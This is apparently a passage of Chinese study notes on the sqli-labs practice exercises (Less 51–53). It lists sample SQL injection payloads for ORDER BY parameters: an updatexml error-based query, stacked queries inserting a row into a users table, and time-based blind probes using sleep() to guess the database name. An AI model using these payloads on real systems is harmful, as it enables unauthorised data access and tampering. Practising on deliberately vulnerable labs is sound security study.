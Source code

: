 `1 and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+`


`?sort=1;insert into users values(18,'uuu','uuu')`
***
# less 51(基于报错的ORDER BY字符串型堆叠注入)
## 原理


改变了闭合方式，仍旧是盲注加堆叠注入的方式

## 步骤
样例payload：

`?sort=1';insert into users values(18,'uuu','uuu')`

***
# less 52(ORDER BY盲注堆叠注入)
## 原理

也不能报错注入，只能堆叠注入盲注，延时注入

## 步骤

`?sort=1 and if(length(database())=8,sleep(5),0) --+`

***
# less 53(上一题的字符型)

就是改变了闭合方式，其余的不再赘述

样例payload：

`4' and if(length(database()) = 8 ,0,sleep(6)) --+`

`1' and (length(database())) = 8 and if(1=1, sleep(1), null) and '1'='1`

`1' and (ascii(substr((select database()) ,1,1))) = 114 and if(1=1, sleep(1), null) and '1'='1`

***
